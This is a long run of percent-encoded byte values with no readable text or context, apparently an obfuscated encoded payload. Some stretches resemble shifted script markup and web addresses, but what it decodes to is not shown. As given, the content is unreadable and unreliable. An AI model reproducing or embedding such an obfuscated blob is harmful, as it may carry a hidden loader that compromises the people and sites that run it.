2f%66%72%6d%6b%4d%6c%6d%6d%58%60%5a%70%60%62%68%22%22%36%0b%00%1d%19%1f%1b%1c%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%7e%1c%64%61%6d%67%1b%64%60%1a%25%76%66%6d%60%6e%7a%28%67%75%60%68%76%24%19%74%0e%06%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%1c%19%15%1e%1a%1b%1d%1e%75%64%6f%63%6c%73%2f%68%70%67%6d%71%28%59%5c%6f%5c%66%68%3b%78%5c%58%6f%60%1e%3f%1d%75%6d%76%61%32%00%04%1a%1b%1d%1e%1a%1d%19%1f%1b%1c%19%15%1e%1a%1b%1d%7b%0f%07%19%1f%1b%1c%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%61%2f%65%6c%67%75%60%68%76%41%64%61%5a%71%6d%79%26%23%30%08%04%1a%1d%19%1f%1b%1c%19%15%1e%1a%1b%1d%1e%1a%1d%19%6d%66%70%74%67%68%1a%65%5c%6a%69%60%32%0a%01%1c%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%7e%09%03%15%1e%1a%1b%1d%1e%1a%1d%7c%34%0e%06%19%15%1e%1a%1b%1d%1e%1a%61%6e%5c%76%69%64%63%72%2c%6c%6b%65%67%74%65%68%74%6a%19%30%1e%64%76%6b%5d%76%64%6e%69%23%61%20%15%75%0f%01%1d%1e%1a%1d%19%1f%1b%1c%19%15%1e%1a%69%60%72%77%6f%6f%1f%65%5d%6d%66%63%31%0e%07%1e%1a%1d%19%1f%1b%1c%19%70%0b%00%1b%1d%1e%1a%1d%19%1f%1b%6a%58%7b%67%65%5a%71%69%68%2b%62%62%72%5e%6e%54%6c%66%2d%69%69%59%66%21%26%30%1c%19%15%1e%0f%01%39%29%69%5e%6b%66%6b%70%3f%00%04%3e%68%5e%6c%63%6d%75%1f%68%6e%5a%30%21%62%77%71%6e%69%37%2e%28%65%69%6f%68%72%75%6c%6f%65%2c%6b%6d%28%77%6e%58%56%65%63%6d%62%29%72%74%73%28%75%65%64%7a%72%5b%64%2b%64%69%22%19%73%72%6c%64%30%21%76%66%75%72%2d%67%58%71%5a%6f%5a%67%67%6a%77%22%38%3e%2a%6a%5c%69%65%69%79%38%0f%01%39%6d%59%6f%60%6f%77%1c%6a%67%5d%3f%24%65%72%76%6d%6a%35%2c%2b%58%6f%5f%72%2d%62%69%6d%62%6d%62%5a%6c%60%66%28%59%6c%68%29%5b%67%58%77%2c%68%60%57%6d%2d%61%6c%73%67%6f%70%28%28%2a%2b%23%2e%2d%61%6c%73%67%6f%70%29%6e%65%6f%23%64%69%24%3b%3a%2d%6e%5a%6d%62%6c%75%33%0b%00%3f%6e%5d%68%64%69%73%1b%6f%6b%56%3b%25%63%71%72%6a%6e%33%28%2c%69%58%7d%5d%66%6d%2b%5c%6d%6a%75%6c%77%6e%58%65%5d%66%6d%2b%5d%6d%68%2e%5d%6c%6b%75%66%72%68%5a%6d%29%29%2b%2a%29%34%2b%63%66%29%58%6c%6a%72%69%71%6b%5e%6b%2a%6c%6c%68%2c%61%6e%21%3c%39%2e%6c%58%6e%60%65%72%3c%0e%07%3a%69%5e%6b%66%6b%70%19%66%6c%59%3e%22%66%76%71%69%6c%31%2b%2e%56%62%6c%2d%67%6d%66%60%6d%66%75%6e%2f%63%63%76%2c%5e%6a%5b%6d%69%6d%2c%68%58%79%63%69%77%2a%5d%6e%5c%69%6f%69%2a%6c%6c%68%2c%61%6e%21%1a%71%70%6f%66%39%26%79%63%72%77%2a%64%5b%73%58%6c%58%6e%60%65%72%25%3d%39%29%69%5e%6b%66%6b%70%3f%00%04%3e%68%5e%6c%63%6d%75%1f%68%6e%5a%30%21%62%77%71%6e%69%37%2e%28%58%60%6f%23%64%69%67%60%6a%63%73%6b%29%6d%61%75%22%5d%6e%5a%6d%6e%68%2b%6d%62%75%61%6d%20%6d%67%6f%60%5d%76%6a%6b%28%6f%5d%75%68%6d%76%2c%69%63%74%60%6d%2a%68%61%6d%68%5d%76%6c%6f%28%6f%64%6f%29%61%6f%26%15%72%73%6b%60%3b%25%71%64%77%77%2b%63%54%70%5b%68%5e%6c%63%6d%75%20%3d%38%2e%66%5d%68%62%6d%72%3c%08%03%3b%68%5f%6b%6c%6e%76%1b%6e%6c%59%38%26%67%77%70%69%66%34%2d%2c%5e%62%6c%2b%63%6c%67%61%6d%6c%70%68%2d%6b%63%76%2a%5a%6b%5a%6c%69%67%28%59%63%6f%69%6f%60%5a%5e%68%70%2c%65%6a%77%64%64%68%2d%69%58%73%66%6f%75%22%5d%6e%5a%6d%6e%68%28%5a%67%69%6b%6c%68%5d%5b%68%71%2b%6a%69%74%60%62%6a%2f%6f%6d%25%3d%39%29%69%5e%6b%66%6b%70%3f%00%04%3e%68%5e%6c%63%6d%75%1f%68%6e%5a%30%21%6a%6f%5c%77%67%6f%2f%65%68%23%3f%31%29%69%58%6f%67%6a%71%3f%0a%01%38%6a%56%6c%63%6b%71%1e%76%74%69%62%3e%23%75%68%76%76%2c%67%5f%74%5c%6a%5c%69%65%69%79%21%3c%0e%07%29%2d%39%18%54%38%40%38%59%3f%51%0e%07%63%74%5c%6d%27%65%71%6f%56%72%63%6c%6b%26%6a%29%58%2b%58%28%62%21%63%2e%69%24%75%67%38%67%72%6d%5f%75%6c%69%6c%23%5e%27%71%6f%64%73%76%6e%6f%2d%5d%3e%5a%3a%21%25%37%64%27%6b%5d%6b%66%63%43%6d%71%26%59%2a%58%26%22%25%22%2d%26%59%3e%5e%23%5b%24%3f%2c%36%3b%4a%79%6c%63%6d%62%28%64%6f%6e%6a%38%64%58%67%3d%6d%67%60%26%59%26%2b%36%22%36%5a%23%72%6d%48%71%6c%63%6b%66%27%28%32%20%2c%7b%31%62%63%26%1b%22%26%29%69%61%69%61%5f%59%66%25%29%5c%2a%2d%4c%77%6e%60%63%61%23%22%76%71%62%64%6d%62%23%5f%2c%20%27%68%50%60%26%59%24%5c%3a%60%57%5a%50%7a%7e%66%25%5d%23%36%62%3a%50%62%74%63%5d%76%62%6a%68%22%60%20%74%69%61%75%78%6c%6c%1b%6f%55%67%58%7c%5a%30%61%3c%6b%73%6c%58%71%67%6d%6b%21%26%70%6e%64%79%73%68%6d%22%5a%5e%72%22%20%7e%37%5a%30%2f%7f%30%72%66%63%69%64%27%58%29%2c%2c%67%64%23%66%55%59%58%20%6f%3e%6c%2f%67%63%6a%6f%5c%5d%67%25%6f%62%74%1c%4b%68%61%47%73%6d%26%25%59%5d%5d%24%27%64%2d%5d%23%20%22%5a%5e%5f%26%2b%24%63%26%2c%2a%61%50%5e%5b%23%36%6b%62%77%71%6b%63%1e%6a%7e%25%21%37%1d%46%34%36%1c%60%3e%33%1a%59%36%33%1a%6b%32%2e%65%24%20%3e%76%1a%2a%62%26%2b%30%20%74%36%1c%37%30%5a%25%5f%22%35%42%38%40%27%40%2b%2b%2c%35%29%23%45%3b%3f%46%2c%47%22%77%42%30%46%20%29%26%2f%7f%47%3c%5d%2e%44%32%26%26%40%3f%2c%27%40%38%28%34%6c%39%40%2d%2f%37%2c%67%27%21%2c%32%2c%23%6b%2c%24%3b%3f%2a%30%29%60%24%6e%3a%6c%29%28%3e%4a%3f%41%26%45%2f%2c%32%2c%23%48%3f%62%27%4e%3e%6a%35%34%26%3c%1d%3f%30%19%68%3b%5e%24%2c%77%5e%22%3f%2e%71%1c%1b%2e%5c%21%5f%22%1e%2b%3c%19%5b%24%27%6e%2e%1c%3e%2c%31%38%18%36%34%1f%2a%32%3c%4c%26%58%22%28%2f%31%2e%21%5d%3d%2d%20%7e%2d%22%59%38%3b%28%24%72%2c%23%65%3c%30%1c%75%19%24%75%34%26%3c%5b%24%38%35%15%63%3f%19%2c%3c%18%3b%3d%5e%1b%62%3c%17%5a%25%20%74%25%5e%22%1b%39%5f%23%22%40%25%5e%24%39%29%5b%3b%3d%28%37%3a%5d%2a%7b%59%70%33%25%3f%59%26%3b%37%1c%64%30%1c%61%19%3b%3a%5b%1d%67%3a%19%2b%6b%22%6d%2d%5f%22%25%6c%26%5d%20%3c%22%36%20%6a%3f%5f%22%25%44%67%22%5b%24%1e%3f%51%21%21%4e%26%5a%25%39%2e%5e%3d%38%2e%39%38%5e%24%78%7b%59%76%2a%27%62%39%3c%17%71%18%22%76%30%21%38%5d%20%3f%30%19%68%3b%18%60%1f%38%3e%5c%19%61%3e%1e%1a%17%1e%70%3e%1f%48%22%59%26%24%2a%32%22%51%21%23%30%3c%1e%38%1f%3f%5b%24%27%4c%2e%5a%25%3f%2a%5f%3c%39%2e%33%3d%58%26%70%5d%71%35%26%3b%5e%22%3d%33%1b%61%3c%17%65%18%3d%39%5f%1a%63%3c%1d%18%1e%19%7f%3b%18%4c%25%5a%25%26%28%31%20%58%26%2c%35%3b%1b%3f%1c%3c%59%26%24%4e%27%5d%2a%3a%2d%5a%3b%3a%2d%31%3f%5b%24%79%7c%70%2f%62%23%30%1e%65%38%43%34%64%38%3c%41%35%65%20%26%27%71%2e%21%5d%3e%39%66%2c%75%34%20%38%5a%25%39%35%1f%66%39%1b%24%3d%18%3d%59%21%21%62%22%5b%24%38%2e%39%38%5e%24%78%5d%1a%2e%21%60%3e%39%28%2c%75%29%23%64%3b%3f%1f%76%1d%22%77%37%2e%3b%5e%24%39%32%1a%60%3c%1d%60%1e%3f%31%5f%1a%65%38%1c%5e%22%22%76%20%58%26%17%38%2b%3f%2a%5f%3c%39%2e%33%3d%58%26%70%5d%71%35%26%3b%5e%22%3d%33%1b%61%3c%17%65%18%3d%39%5f%1a%63%3c%1d%2c%6e%2e%66%29%5e%24%26%68%21%59%26%38%25%33%2c%61%3b%5e%24%26%64%21%59%26%1d%3d%2d%3d%22%5f%3c%3f%2a%32%3c%59%26%7a%7e%5f%72%26%26%63%3e%38%1c%75%1f%20%74%35%27%3c%51%21%3e%37%1d%63%3f%1f%62%1d%3d%38%58%15%60%3f%19%1e%1c%1a%77%3c%1d%4d%24%5d%2a%25%65%20%59%21%23%36%38%1f%39%1e%3f%51%21%21%64%26%5a%25%39%2e%5e%3d%38%2e%39%38%5e%24%78%5d%71%33%22%3a%5f%23%3d%39%1e%67%3e%1f%65%18%3b%3d%5e%1b%62%3c%17%1d%18%1b%77%3b%18%4a%21%5b%24%27%66%2e%5a%25%22%36%3f%1a%3f%1b%39%5f%23%22%6a%25%5e%24%39%29%5b%3b%3d%28%37%3a%5d%2a%7b%7f%7e%30%1e%2b%32%3c%46%23%5e%20%2e%2f%31%28%25%5c%3e%6a%20%74%28%24%60%30%3b%18%74%1f%27%71%33%22%3a%5f%23%3d%39%1e%67%3e%1f%65%18%3b%3d%5e%1b%62%3c%17%1d%18%1b%77%3b%18%4b%21%5b%24%27%28%3a%25%5e%24%24%35%3b%1d%3b%1d%3d%58%26%2e%2f%63%20%59%21%3e%2a%58%39%3f%2b%35%33%5a%25%7e%5e%75%34%26%3c%5b%24%38%35%15%63%3f%19%66%1c%3c%39%58%1f%65%39%1b%16%1c%1a%71%38%1c%4d%25%5d%20%20%2d%36%2e%5a%25%22%36%3f%1a%3f%1b%39%5f%23%22%24%67%21%5f%22%3a%2d%5c%3f%3b%2c%30%3f%51%21%7f%7e%30%1e%39%38%74%29%2a%40%21%17%3d%18%22%36%33%1a%2c%31%3a%76%2a%28%48%26%18%2a%43%2b%2b%42%1b%26%30%2d%61%2d%33%1a%6b%38%2e%31%6d%3d%3c%2d%4c%32%65%25%21%22%76%3d%51%6d%5c%29%2a%66%3c%3b%7b%29%23%3e%20%24%3e%2f%4f%3d%2c%20%7e%30%3f%5f%22%5a%25%78%2a%27%2a%34%20%7e%2f%32%2d%2c%64%3f%33%7c%7a%73%1c%28%54%26%4b%22%76%33%1a%4f%3c%4e%2d%4e%32%38%1e%2b%60%38%47%22%4f%2f%2e%43%20%28%4c%28%26%77%29%2f%2a%24%32%2e%64%24%28%6e%27%7f%73%1d%2f%64%25%20%74%36%1c%65%30%6b%31%28%25%62%2c%34%21%1d%2c%6e%2e%66%29%18%22%1c%3b%2f%2c%20%74%28%24%65%23%37%22%19%3a%4d%2f%32%1b%26%1a%39%2c%24%27%71%6d%38%62%2c%41%21%63%2d%35%21%17%29%68%2c%6e%29%18%24%22%2e%37%28%65%23%37%22%19%3a%4d%2f%32%1b%26%22%79%5a%7e%68%3f%67%2b%42%22%61%2f%36%23%1e%2e%67%29%69%2c%1f%27%21%2c%35%2b%67%2a%30%2d%1c%3d%25%32%1c%23%24%7c%7a%28%24%65%23%37%22%19%3a%6f%3f%1f%20%3a%3e%29%28%2b%20%66%2d%34%26%18%2b%37%1d%22%39%3c%20%2f%23%70%2e%26%66%2b%30%27%19%2b%6b%22%6d%2d%19%24%3b%3f%28%28%26%70%65%3c%17%71%18%30%2e%26%6f%2b%30%27%19%1f%44%30%1c%23%1a%38%2b%2b%24%72%5d%3e%69%2f%49%26%6f%2d%34%26%18%1e%44%3a%19%25%22%3d%2a%6f%2d%4d%27%7f%5e%72%5d%3e%2d%7c%78%28%2b%6f%25%1c%3e%65%19%53%3e%58%5d%17%1c%21%72%26%1c%57%2a%57%28%54%3b%36%20%6a%3f%2a%23%56%3f%54%2c%55%2e%64%27%24%2f%3f%2a%5c%5a%5e%1f%3f%3b%5f%58%2e%6d%38%18%22%78%5d%71%64%3c%1d%68%1e%32%26%26%66%2d%34%26%18%23%36%2a%6f%39%1b%2c%3b%3f%2e%2c%27%71%67%3c%2e%41%79%2a%2d%6b%2c%32%25%1c%19%40%3c%1d%22%1d%3c%20%2f%23%70%5f%3b%6f%2b%45%27%6e%2a%30%2d%1c%19%46%38%1c%23%26%31%2b%6e%2a%49%2c%7b%59%70%5f%3b%2b%78%74%29%2a%68%21%51%21%3e%63%1d%52%3f%1f%5d%20%20%75%22%51%21%57%2c%53%29%55%2a%2c%28%5f%23%22%63%25%5e%24%3a%56%3f%54%2c%55%2e%64%27%24%2f%3f%2a%5c%20%35%28%6d%3a%2a%1e%19%33%3a%5e%5f%2a%66%3c%59%26%26%7e%79%7c%7d%1e%4c%23%43%27%71%2c%2b%3a%23%42%2c%24%27%20%61%36%41%3f%43%32%32%1b%2d%2a%30%73%2c%2a%68%26%5e%22%28%69%5f%23%20%5e%2e%5f%30%30%1e%74%38%74%29%2a%6b%21%51%21%62%5f%22%27%31%73%2f%2e%6b%39%5d%2a%2f%6b%2c%2c%6c%5e%22%32%71%2d%2d%6a%2d%1c%56%19%29%77%21%1f%54%28%55%2b%56%32%2f%76%2e%2c%73%3f%1f%22%2e%29%27%1b%2b%31%2f%6f%38%2f%24%55%3c%56%2e%56%2c%6d%20%2b%2a%38%2f%58%1f%20%34%2a%2f%2f%24%70%22%75%24%7b%72%1d%4e%27%45%25%72%24%2c%3f%23%43%2b%2b%24%23%65%30%43%3c%4b%35%37%1b%2c%2d%3f%70%2f%2e%6e%24%5d%2a%2f%6c%5f%22%27%51%2d%5c%34%36%1c%77%30%73%2c%2a%6a%26%5e%22%61%5b%24%25%32%7b%28%2b%6b%38%5a%25%2c%68%28%2a%6e%5d%2a%35%74%2d%2c%6d%22%1f%55%1d%2f%75%22%17%53%2d%55%2a%51%2d%28%2e%1d%20%6a%22%17%39%2b%77%28%2f%77%38%1b%24%2a%2e%22%17%20%35%2e%69%3b%2b%23%51%3a%52%29%53%20%66%24%2a%2c%3b%2b%5f%1b%26%30%2d%2a%23%2f%74%23%73%27%7f%75%19%2e%59%24%48%2c%75%2b%58%38%4f%2c%4f%2f%2e%40%57%29%50%35%37%1b%2c%71%3f%2c%5a%29%2a%74%2f%29%72%2c%47%25%2e%2e%2c%30%26%20%2d%5a%23%2f%72%2d%21%72%2c%41%21%2e%4f%28%28%40%27%31%36%1d%2f%66%38%28%49%23%2d%76%2c%35%29%23%64%3b%3f%1f%76%1d%22%77%34%15%2f%67%3e%1f%29%68%3a%4a%2a%34%39%1b%2e%2f%66%20%1f%20%35%28%6d%3a%19%27%63%2e%1c%19%46%38%1c%21%42%7c%5c%70%31%19%24%63%3f%19%2a%6c%2d%6e%2e%1d%20%6a%22%17%39%49%2e%32%3b%18%26%28%63%20%1e%27%3a%2b%6e%3e%1f%25%60%26%1b%1c%46%39%1b%2e%41%7f%2a%4a%28%64%38%28%62%7e%23%2d%3b%2c%2e%2a%2c%2d%2e%22%7d%7b%7f%65%67%71%6d%6a%5a%6b%7a%74%5c%6b%7b%63%70%6c%61%7a%6f%5a%75%7a%7e%64%6f%63%66%74%4e%6b%7a%7e%6d%6a%6b%67%6f%61%5e%6f%78%64%61%6d%67%7f%71%66%63%6e%54%6d%6f%78%5a%61%5f%69%68%79%66%68%60%67%7b%61%66%7d%66%5d%68%62%6d%72%7e%67%64%69%62%6f%7d%65%69%69%77%6d%63%68%6d%58%60%66%78%6a%6d%69%75%6b%5c%61%67%4b%74%6a%7f%6e%64%66%73%6e%77%6e%7a%77%6f%6d%5e%58%70%60%7b%63%6a%5a%62%63%7e%69%5b%6b%6d%5d%6c%68%2f%7e%6e%5c%65%69%64%6c%5e%6f%78%7d%71%6d%67%5a%6f%5d%62%79%6d%5e%59%61%6d%71%7a%66%6c%5e%73%6f%60%6f%73%7f%6a%64%7a%47%6c%58%69%73%66%60%7d%6f%5a%63%64%71%60%77%6d%5e%72%63%6a%6f%7b%63%6b%6c%68%59%6a%5a%62%63%7e%6a%6f%5c%6f%65%5a%6e%7a%68%66%71%73%68%6b%7d%61%5a%68%6a%68%7a%6a%5a%62%63%3b%6f%64%5e%7f%6f%74%57%6d%76%69%64%68%65%79%49%5e%64%61%4f%62%7a%6c%76%68%5c%67%6f%69%5e%64%61%7d%63%69%6a%5a%62%63%7e%6b%6e%6a%66%6e%62%6c%6c%63%7f%6d%5f%68%6e%64%46%6d%70%7d%60%73%6e%5a%64%7a%6c%70%6c%6c%63%6b%76%65%5f%65%66%79%5f%61%65%60%6d%7f%71%69%45%5f%65%66%52%69%68%61%7d%6d%66%60%60%67%63%59%77%6d%5f%65%60%7d%6d%66%60%60%67%63%59%77%69%5f%58%60%6d%7b%6f%61%6f%6a%72%62%7f%6f%69%6d%71%7d%61%66%61%65%71%73%6a%67%5c%72%67%61%7d%6c%69%5f%7d%6b%63%67%67%6e%7a%6a%6a%6a%73%68%78%6a%78%6b%6f%5a%6f%77%7e%5c%6d%73%7f%66%6a%62%68%7e%62%6b%7a%7e%5e%58%6b%6f%5e%58%56%65%7e%61%6e%69%6c%6e%75%5e%69%70%7d%63%3c%6d%67%74%7a%7e%5f%58%69%72%5d%62%69%5f%76%5a%79%6e%68%60%77%69%6c%69%64%67%7a%6c%66%75%72%6c%6a%6c%62%69%78%5b%61%69%65%4b%5c%61%67%6f%7d%7b%63%65%75%78%68%65%77%6a%72%5b%69%65%5e%77%5d%7d%6b%67%6c%67%61%5f%76%60%69%68%68%70%7d%65%69%69%77%79%72%63%68%64%6c%77%5d%6c%65%7a%5b%6f%5c%6b%5b%71%7d%67%5a%68%58%60%5f%6c%59%69%69%65%62%64%6d%7f%68%6e%62%6e%62%5a%69%5f%6f%5c%6f%7b%65%6b%6b%71%62%6d%74%6b%4e%5b%62%64%50%6c%6e%65%71%67%6c%6d%60%6c%42%51%4c%4b%7f%70%6e%79%5f%6e%67%5c%72%5b%79%76%6d%62%70%64%71%61%67%77%40%6a%67%68%64%69%77%6f%3b%7c%52%5b%64%4b%5f%6f%60%7d%67%66%5d%65%71%5d%68%66%5c%72%67%40%6d%62%6e%61%6f%79%7a%76%72%6d%63%7e%71%64%77%77%78%63%54%70%5b%68%5e%6c%63%6d%75%7b%68%61%75%34%72%76%69%64%5c%77%71%64%7b%68%70%58%67%72%7e%62%6b%62%67%75%7d%5e%6b%6c%64%63%62%39%63%64%6a%66%79%75%66%6e%61%6a%79%5f%6f%6b%2c%7a%6a%70%5b%6b%62%6f%61%68%62%7e%68%65%69%75%6d%58%60%66%4b%67%71%4e%5b%64%60%7a%6d%63%7d%6c%63%6b%76%65%5f%65%66%79%6d%62%6a%76%6f%5a%63%64%45%69%63%6d%71%7a%65%60%75%42%6f%61%6c%68%68%76%68%3f%77%4c%5c%6c%62%7f%63%64%79%43%6e%66%68%63%6c%71%3b%76%42%60%7d%57%6a%6d%64%79%6e%5b%62%64%6d%7f%6b%69%68%68%49%66%5c%6c%59%65%7d%73%6c%70%58%61%4c%67%68%70%6a%76%6e%7d%2d%2b%78%64%63%72%68%72%79%2c%29%79%2b%36%7f%61%6f%56%69%66%66%50%4c%43%3e%6e%6a%6b%6b%6f%68%68%76%7f%69%69%59%5c%75%66%6c%6a%26%23%6d%6a%6f%64%72%22%22%7d%20%22%28%29%21%75%7f%22%24%0b%00%2a%2e%5a%5e%3a%0c%0f%3a%2d%68%5e%6c%63%6d%75%39%0e%06%0c%0f%3a%1b%2e%28%0b%00%1d%19%3b%2c%60%60%7b%38%0f%01%08%04%3e%6e%5a%6d%62%6c%75%15%72%73%6b%60%3b%18%71%64%77%77%2b%63%54%70%5b%68%5e%6c%63%6d%75%1d%1b%6f%6b%56%3b%18%63%71%72%6a%6e%33%28%2c%73%76%7a%28%58%6f%6a%61%65%60%6b%29%58%6b%6c%22%6d%76%5a%71%67%59%2a%77%2e%2c%73%60%69%61%67%77%6e%29%29%32%34%2c%35%34%35%25%32%28%2e%72%67%66%62%64%73%68%2a%63%66%1c%3c%3f%2a%6d%59%6f%60%6f%77%3a%0c%0f%3a%69%58%6f%67%6a%71%19%73%72%6c%64%30%21%76%66%75%72%2d%67%58%71%5a%6f%5a%67%67%6a%77%22%38%0f%07%77%5e%69%1c%3b%41%49%45%5c%3f%3f%49%40%5e%46%4e%3d%46%48%59%57%49%49%1e%3f%1d%26%67%77%70%69%66%34%2d%2c%6f%63%69%6a%74%6d%58%61%6a%23%5c%6e%6c%62%5c%6e%6a%66%29%58%6b%6c%22%67%6f%64%22%35%74%5c%6b%1f%39%48%4e%4a%59%4e%3a%4b%41%5d%41%40%4d%1b%39%19%2a%6a%76%69%22%35%75%64%6f%63%6c%73%52%2a%59%5d%74%5c%70%76%22%5c%1f%3e%1c%26%34%49%77%51%6a%57%35%51%42%55%36%2e%62%45%65%33%69%57%36%43%28%3a%3d%55%4c%49%5b%4d%77%47%49%45%40%4c%33%2e%35%32%2b%3a%2c%37%34%2e%2d%2a%31%28%20%30%5b%56%6c%62%65%66%71%4b%5b%6b%58%60%66%6e%2f%52%47%6c%62%71%26%25%2a%2e%70%74%73%2f%57%6a%6d%64%62%63%68%2b%5a%68%6e%2b%6b%68%5f%68%69%5c%68%65%60%3e%5d%6f%6b%66%4c%42%5e%73%2e%62%35%2f%2a%2f%32%32%35%3a%37%28%37%2f%31%34%2f%34%32%33%31%26%21%21%2d%2c%72%71%75%2b%6b%66%6d%63%6a%79%70%2c%68%64%72%67%2a%69%28%6f%65%77%68%2b%69%6b%6a%72%74%2b%61%73%6e%68%3e%60%5a%72%28%61%2f%25%29%26%30%29%2f%29%3c%30%36%34%34%2c%36%2f%36%31%29%31%34%3d%33%25%22%36%0b%00%5a%56%66%67%63%64%79%4b%5b%6d%5c%61%67%6f%2f%58%48%61%75%49%5f%76%5a%3e%69%6c%71%64%77%77%24%52%7e%21%6c%5a%68%63%25%37%19%20%59%68%6e%6a%21%2e%1b%22%62%5b%71%58%20%31%1c%72%2a%5c%6e%6c%62%47%66%22%33%1f%24%33%2b%26%2e%33%35%31%31%33%2f%35%2d%34%32%2b%38%33%32%36%22%2a%1a%22%75%66%77%68%64%2a%34%1a%24%6f%67%6c%62%6a%73%75%23%2d%15%21%77%69%69%21%30%1d%26%67%77%70%69%3f%29%2d%74%72%71%2c%6f%60%69%64%6f%75%7b%28%69%62%71%63%2d%6d%2e%6b%62%72%64%20%6d%6a%6c%71%70%2c%65%75%6a%6f%3b%6c%51%76%29%67%2c%21%2e%1d%26%5c%5a%6a%6e%63%67%59%5a%69%53%68%69%26%35%1b%23%61%79%72%6a%31%2a%29%75%72%76%29%69%65%6f%6a%6d%76%75%2b%6d%63%71%64%28%6b%2b%6d%6c%70%67%2e%6e%6e%6d%71%77%29%63%70%6c%61%21%2e%1b%22%66%6d%68%64%6f%5a%63%64%58%6c%6e%24%37%1e%25%65%75%73%6b%36%2e%22%71%75%74%2b%6c%63%6b%66%6c%77%72%2f%66%67%76%66%2a%39%6f%59%71%2c%67%2d%26%21%1e%25%68%60%5f%68%5e%61%52%69%68%26%3f%1e%25%63%71%72%6a%37%2e%28%74%73%76%23%6c%63%6d%62%6d%76%73%2f%6c%62%70%64%22%6d%67%5a%6f%5d%62%22%2d%1f%24%5f%58%63%69%6c%62%5e%5f%6e%45%6e%6a%66%6c%58%6a%63%57%69%69%21%30%1d%26%67%77%70%69%3f%29%2d%74%72%71%2c%6f%60%69%64%6f%75%7b%28%69%62%71%63%2d%22%2d%1f%24%5e%6d%62%61%69%6b%6a%72%44%5c%77%66%58%6b%6f%58%6c%6e%24%37%1e%25%65%75%73%6b%36%2e%22%71%75%74%2b%6c%63%6b%66%6c%77%72%2f%66%67%76%66%2a%60%5b%73%60%5c%6c%6a%2f%6c%5d%6d%24%29%1e%25%5f%6d%68%64%63%64%67%53%68%6f%22%34%1a%22%61%73%77%6c%6a%3f%29%2d%74%72%71%2c%5f%6d%68%64%63%64%67%28%59%6c%68%21%2e%1d%26%67%5a%6f%3a%78%6d%76%6c%68%42%6d%68%58%66%6d%23%33%15%72%68%76%60%2a%1a%22%61%73%77%6c%6a%48%68%5b%59%69%63%66%22%33%1f%65%5d%6d%66%63%2e%1b%22%63%6c%5c%5b%6b%66%60%3a%62%6b%6f%66%6b%72%4a%6f%6e%61%62%68%64%4c%6b%5b%64%60%6d%25%37%19%73%69%71%64%21%1e%25%64%4d%6a%77%6e%57%66%66%73%55%7c%6e%67%24%37%1e%25%43%40%4b%57%41%4b%48%42%5d%4b%4a%4d%56%48%4e%43%24%28%19%2a%5f%66%76%69%72%39%6a%6f%73%66%6a%75%2a%34%1a%65%5c%6a%69%60%2d%1f%24%5d%6f%54%6a%73%77%64%5d%69%3c%5a%5c%6c%71%6f%79%48%77%6e%5f%63%68%22%33%1f%24%23%2d%15%21%67%6d%5e%69%66%64%6f%60%24%36%19%2a%53%56%45%28%36%25%29%19%20%6f%6b%5a%54%6a%67%24%37%1e%25%64%65%20%2f%1c%26%61%69%59%5a%69%63%57%6b%65%62%69%6f%5a%62%6c%67%47%60%6a%63%68%60%73%66%60%26%3f%1e%25%62%61%21%2e%1d%26%6b%5a%6a%66%78%5f%65%66%41%67%68%60%5a%73%62%6b%6f%2a%34%1a%24%69%72%68%22%2d%1f%24%65%6a%45%6c%63%75%5c%72%67%22%33%1f%77%6e%74%68%2a%1a%24%64%6d%4f%6a%5b%66%6f%61%26%3f%1e%76%69%70%63%2e%1d%26%66%68%49%6e%57%67%6e%66%4f%63%6b%70%64%6c%77%23%33%15%72%68%76%60%2a%1a%22%6c%68%59%65%6d%68%3d%6e%5a%6e%6d%25%37%19%20%1b%69%6e%57%67%6e%66%22%2a%1a%22%60%6c%4b%6e%60%7b%5f%76%66%3f%6a%6d%62%26%35%1b%62%58%61%6d%67%2f%1d%21%63%6e%45%76%6d%5d%6c%6c%5d%54%62%60%71%69%3c%77%5e%62%68%58%57%6a%67%24%37%1e%76%6f%74%62%2f%1c%26%6b%63%67%67%49%67%6c%66%6a%20%31%1c%26%51%76%29%58%69%67%6c%66%19%6d%66%68%5d%7d%2d%66%5f%75%2c%28%5c%6d%73%66%6e%6f%54%72%67%5f%75%2c%28%1d%75%76%6b%61%5d%7d%2d%66%5f%75%2c%28%5c%69%6f%6f%65%5a%54%72%63%6c%6b%29%5b%71%6e%6a%20%74%6c%61%5a%72%29%2f%1e%76%64%75%6b%66%58%71%26%62%5e%73%2f%2c%68%64%6f%60%68%70%77%15%2b%1a%3a%71%69%6f%59%71%2d%29%1c%61%67%63%64%5f%75%2d%66%59%71%2d%29%64%75%79%6e%30%2c%2a%71%75%72%2f%6d%62%6a%66%66%72%74%2d%6e%67%76%60%2e%61%66%61%65%66%29%6a%6c%6e%72%69%2a%65%62%65%5d%74%61%72%5e%73%2f%2c%1a%2a%5d%77%28%61%5d%63%5a%72%28%5e%6a%63%6b%62%1f%69%61%6d%51%76%29%67%59%76%28%2f%58%6b%77%61%6b%63%5f%76%66%59%76%28%2f%19%73%72%6c%64%51%76%29%67%59%76%28%2f%58%6f%6b%68%60%56%5f%76%62%6a%68%2d%6f%6a%6c%20%74%6c%61%5a%72%29%2f%1e%76%64%75%6b%66%58%71%26%62%5e%73%2f%2c%68%64%6f%60%68%70%77%15%2b%1a%49%4e%4d%5e%75%2b%2d%1b%64%6b%68%60%5e%73%2e%62%5e%75%2b%2d%63%70%75%65%34%2d%2c%72%71%75%2b%6b%66%6d%63%6a%79%70%2c%68%64%72%67%2a%67%62%66%60%6a%22%6e%6d%68%71%6d%2d%61%64%61%5a%71%6d%79%39%5b%6f%71%5a%72%2e%65%6d%68%6f%5d%7d%2c%28%1b%2a%5a%72%2e%64%5b%6d%58%71%26%5d%6e%62%6b%65%1a%6f%64%6b%5f%74%2a%69%5a%72%29%2f%6d%67%6f%77%66%58%61%2f%65%69%69%77%59%76%28%2f%19%73%72%6c%64%51%76%29%67%59%76%28%2f%58%6f%6b%68%60%56%5f%76%62%6a%68%2d%5c%75%68%6e%27%71%60%6a%5e%73%2f%2c%1a%71%60%73%6f%61%5d%7d%2d%66%5f%75%2c%28%6f%60%69%64%6f%75%7b%1e%2f%1b%3c%72%6d%68%5d%77%29%2e%19%6d%6c%67%65%59%76%29%61%5d%77%29%2e%61%79%72%6a%68%37%29%2d%72%76%70%2d%5e%6d%62%61%65%66%6f%28%59%6a%6c%28%65%61%64%69%6d%2d%34%2f%2d%2a%34%37%33%34%35%2b%39%2c%35%35%2f%33%37%